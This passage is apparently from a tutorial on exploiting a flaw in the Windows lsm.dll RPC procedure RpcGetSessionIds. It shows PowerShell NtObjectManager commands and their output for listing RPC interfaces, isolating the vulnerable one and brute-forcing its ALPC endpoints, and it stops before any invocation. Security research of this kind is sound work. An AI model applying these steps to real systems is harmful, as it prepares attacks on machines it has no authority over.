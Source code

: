 First of all, we install the module:
```powershell
Install-Module NtObjectManager
```
With the module installed, we first need to get the RPC server's interfaces using `Get-RpcServer` while parsing the `dbghelp.dll`. We parse `dbghelp.dll` so that we also get the symbols for the RPC server. Otherwise, the vulnerable procedure `RpcGetSessionIds` would be named something like `Proc15`.

```powershell
$vulnrpcserver = "$env:systemdrive\windows\system32\lsm.dll" | Get-RpcServer -DbgHelpPath ".\dbghelp.dll"
```

However, if we check `$vulnrpcserver` now, it has 9 RPC interfaces
```powershell
$rpcinterface

Name    UUID                                 Ver Procs EPs Service Running
----    ----                                 --- ----- --- ------- -------
lsm.dll 11f25515-c879-400a-989e-b074d5f092fe 1.0 11    0   LSM     False
lsm.dll 1e665584-40fe-4450-8f6e-802362399694 1.0 4     0   LSM     False
lsm.dll 88143fd0-c28d-4b2b-8fef-8d882f6a9390 1.0 12    0   LSM     False
lsm.dll 11899a43-2b68-4a76-92e3-a3d6ad8c26ce 1.0 4     0   LSM     False
lsm.dll 53825514-1183-4934-a0f4-cfdc51c3389b 1.0 5     0   LSM     False
lsm.dll e3907f22-c899-44e7-9d11-9d8b3d924832 1.0 7     0   LSM     False
lsm.dll c2d15ccf-a416-46dc-ba58-4624ac7a9123 1.0 3     0   LSM     False
lsm.dll 484809d6-4239-471b-b5bc-61df8c23ac48 1.0 21    0   LSM     False
lsm.dll c938b419-5092-4385-8360-7cdc9625976a 1.0 2     0   LSM     False
```
The vulnerable procedure `RpcGetSessionIds` is included on within the `88143fd0-c28d-4b2b-8fef-8d882f6a9390` interface. We can also directly get that interface instead.

```powershell
$vulnrpcinterface= "$env:systemdrive\windows\system32\lsm.dll" | Get-RpcServer -DbgHelpPath ".\dbghelp.dll" |? {$_.InterfaceId -eq '88143fd0-c28d-4b2b-8fef-8d882f6a9390'}
```

Now we are left over with only one interface, the one we need:

```powershell
$vulnrpcinterface

Name    UUID                                 Ver Procs EPs Service Running
----    ----                                 --- ----- --- ------- -------
lsm.dll 88143fd0-c28d-4b2b-8fef-8d882f6a9390 1.0 12    0   LSM     True
```

In order to actually invoke the vulnerable procedure, we will need an RPC client that is connected to an RPC endpoint. To see what endpoints are available to connect our RPC client to, we can use:

```powershell
$vulnrpcinterface.Endpoints
```
However, it seems the `Get-RpcServer` function was not able to determine any endpoints. Another option is to use `Get-RpcEndpoint` together with the `-FindAlpcPort` switch. This will brute force the local endpoint mapper for ALPC (Advanced Local Procedure Call) endpoints.
```powershell
Get-RpcEndpoint -InterfaceId 88143fd0-c28d-4b2b-8fef-8d882f6a9390 -InterfaceVersion 1.0 -FindAlpcPort

UUID                                 Version Protocol Endpoint                        Annotation
----                                 ------- -------- --------                        ----------
88143fd0-c28d-4b2b-8fef-8d882f6a9390 1.0     ncalrpc  LSMApi
88143fd0-c28d-4b2b-8fef-8d882f6a9390 1.0     ncalrpc  LRPC-34828d104667efa88f
88143fd0-c28d-4b2b-8fef-8d882f6a9390 1.0     ncalrpc  OLEF301E99E9C25C368F9F1CF081E88
```
